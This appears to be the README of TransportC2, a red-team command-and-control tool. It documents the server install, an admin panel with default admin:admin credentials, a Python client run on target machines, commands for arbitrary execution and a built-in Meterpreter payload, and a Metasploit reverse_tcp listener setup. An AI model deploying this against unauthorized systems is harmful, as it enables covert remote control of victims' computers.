 # TransportC2

### Summary
TransportC2 is a command and control server that is able to run in the background as a service. This allows penetration testers and red teamers the ability to spend time gathering target machines, without being tied to an active session. Interact with clients through a private web interface that requires authentication, and allows administrators to add multiple users. All logins, commands, and responses are logged to provide a traceable point of reference.

Why "Transport"? TransportC2 is meant to be a long-term command and control server that allows users to direct payloads to other, shorter-term channels. This is exemplified by the built-in Metasploit payload, simply execute "msfpayload 192.168.1.1 4444" to open a meterpreter session on an infected client.


### Server
The TransportC2 server has two components: 
1) An HTTPS server that runs over port 443 and accepts incoming client connections. 
2) An HTTPS admin interface that runs over port 8443 and allows users to interact with clients via web browser. This portal requires a username and password with a default login of **admin**:**admin**. Once logged in user's can change their password and add other users to allow team sharing.

*Modify server configurations prior to running the install script @ server/config.py*

#### Install
The setup.sh script will install all necessary requirements, create cert & key files, and move the working directory to /opt/transportc2:
```bash
git clone https://github.com/m8r0wn/transportc2
cd transportc2/install
sudo chmod +x setup.sh
./setup.sh
```

#### Interact C2 Service
```bash
sudo systemctl start transportc2.service
sudo systemctl stop transportc2.service
sudo systemctl status transportc2.service
```


### Client
As of now, TransportC2 has a PoC client written in Python 2/3. Clients will make HTTPS requests to the C2 server and mimic a web connection. Variables at the top of the client file can be modified to change client check-in intervals, requesting page, etc. 

#### Client Usage
Run the client on a target machine:
```bash
python3 https_client.py 127.0.0.1 443
```

#### Client Commands
Once a client is connected, login to the Admin Interface to execute one of the following commands:
```
stealth [int1] [int2]                   - Change client check-in intervals
msfpayload [ip] [port]                  - Launch Built in meterpreter payload
change_date [4-digit yr],[month],[day]  - Change max kill date on client
close                                   - Close / kill client
[command]                               - Execute payload on client
```

#### MSF Listener
Setup Metasploit to use built in client payload:
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set Lhost 192.168.1.1
set Lport 4444
execute
```


### Screenshots
![user Login](server/AdminServer/static/img/login.png)
<br><br>
![Cmd_Panel](server/AdminServer/static/img/cmd.png)


### Contributors 
Thanks to the following contributors that made this project possible:
@darneymartin
